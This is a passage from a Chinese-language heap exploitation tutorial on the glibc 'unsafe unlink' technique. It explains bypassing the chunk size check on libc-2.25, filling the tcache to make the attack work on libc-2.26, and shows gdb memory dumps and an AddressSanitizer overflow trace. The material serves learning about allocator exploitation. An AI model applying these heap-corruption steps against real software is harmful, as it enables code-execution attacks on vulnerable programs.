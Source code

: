 ```text
0x602100:   0x0000000000000000  0x0000000000000000
0x602110:   0x0000000000000000  0x0000000000000000
0x602120:   0x0000000000000000  0x0000000000020ee1  <-- top chunk
0x602130:   0x0000000000000000  0x0000000000000000
```

这里有三种办法可以绕过该检查：

- 什么都不做。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x0`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x0) == 0x0`
- 设置 `chunk0_ptr[1] = 0x8`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x8`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x8) == 0x8`
- 设置 `chunk0_ptr[1] = 0x80`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x80`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x80) == 0x80`

好的，现在 libc-2.25 版本下我们也能成功利用了。接下来更近一步，libc-2.26 怎么利用，首先当然要先知道它新增了哪些漏洞缓解措施，其中一个神奇的东西叫做 tcache，这是一种线程缓存机制，每个线程默认情况下有 64 个大小递增的 bins，每个 bin 是一个单链表，默认最多包含 7 个 chunk。其中缓存的 chunk 是不会被合并的，所以在释放 chunk 1 的时候，`chunk0_ptr` 仍然指向正确的堆地址，而不是之前的 `chunk0_ptr = P = P->fd`。为了解决这个问题，一种可能的办法是给填充进特定大小的 chunk 把 bin 占满，就像下面这样：

```c
    // deal with tcache
    int *a[10];
    int i;
    for (i = 0; i < 7; i++) {
        a[i] = malloc(0x80);
    }
    for (i = 0; i < 7; i++) {
        free(a[i]);
    }
```

```text
gef➤  p &chunk0_ptr
$2 = (uint64_t **) 0x555555755070 <chunk0_ptr>
gef➤  x/gx 0x555555755070
0x555555755070 <chunk0_ptr>:    0x00007fffffffdd0f
gef➤  x/gx 0x00007fffffffdd0f
0x7fffffffdd0f: 0x4242424242424242
```

现在 libc-2.26 版本下也成功利用了。tcache 是个很有趣的东西，更详细的内容我们会在专门的章节里去讲。

加上内存检测参数重新编译，可以看到 heap-buffer-overflow：

```text
$ gcc -fsanitize=address -g unsafe_unlink.c
$ ./a.out
The global chunk0_ptr is at 0x602230, pointing to 0x60c00000bf80
The victim chunk we are going to corrupt is at 0x60c00000bec0

Fake chunk fd: 0x602218
Fake chunk bk: 0x602220

=================================================================
==5591==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60c00000beb0 at pc 0x000000400d74 bp 0x7ffd06423730 sp 0x7ffd06423720
WRITE of size 8 at 0x60c00000beb0 thread T0
    #0 0x400d73 in main /home/firmy/how2heap/unsafe_unlink.c:26
    #1 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #2 0x400968 in _start (/home/firmy/how2heap/a.out+0x400968)

0x60c00000beb0 is located 16 bytes to the left of 128-byte region [0x60c00000bec0,0x60c00000bf40)
allocated by thread T0 here:
    #0 0x7fc9261c4602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
```